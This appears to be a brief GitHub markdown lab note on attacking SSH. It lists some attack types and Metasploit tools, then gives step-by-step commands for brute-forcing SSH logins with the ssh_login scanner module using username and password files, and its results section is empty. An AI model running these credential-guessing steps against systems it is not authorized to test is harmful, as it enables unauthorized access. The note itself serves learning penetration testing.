


# SSH

    -Anonymous authentication
    -Directory traversal attack
    -Cross-site scripting
    -Dridex

## Tools

-Kali Linux
-Metasploit
    - ``` msfconsole ```
    - ``` msfweb ``` 
    - ``` msfplayload ```
    - ``` msfcli ```
    - ``` msflogdump ```

## Payloads

    - Singles
    - Stagers
    - Stages

### Starting exploit

- Open Metasploit: ``` msfconsole ```

- ``` search ssh_login ```



- Now you need use the IP from the target machine you want to exploit

- ``` use auxiliary/scanner/ssh/ssh_login ```

- ``` set rhosts "IP_TARGET_MACHINE"  ```
- ```set USER_FILE /home/kali/uiser.txt```
- ``` set PASS_FILE /home/kali/password.txt ```

- Do the exploit and after type sessions 1


### Results


